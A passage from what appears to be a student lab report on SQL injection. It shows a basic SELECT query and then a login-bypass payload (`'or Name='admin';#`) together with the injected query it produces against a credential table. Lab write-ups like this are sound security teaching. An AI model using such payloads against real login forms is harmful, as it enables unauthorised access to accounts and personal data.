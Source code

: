 ## 5 SQL Injection Attack [21 Marks]

### 5.2 Get Familiar with SQL Statements [4 marks]

* Select all Alice’s information

  ```sql
  select * from credential where Name = "Alice"
  ```

  ![1588050351855](assets/1588050351855.png)

### 5.3 SQL Injection Attack on SELECT Statement [6 Marks]

#### Sub-task 1: SQL Injection Attack from webpage.

* use the user name: `'or Name='admin';#` 

  * The code after the injection is as following (`;#` can escape following command)

    ```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= ' 'or Name='admin';# ' and Password='$hashed_pwd'
    ```
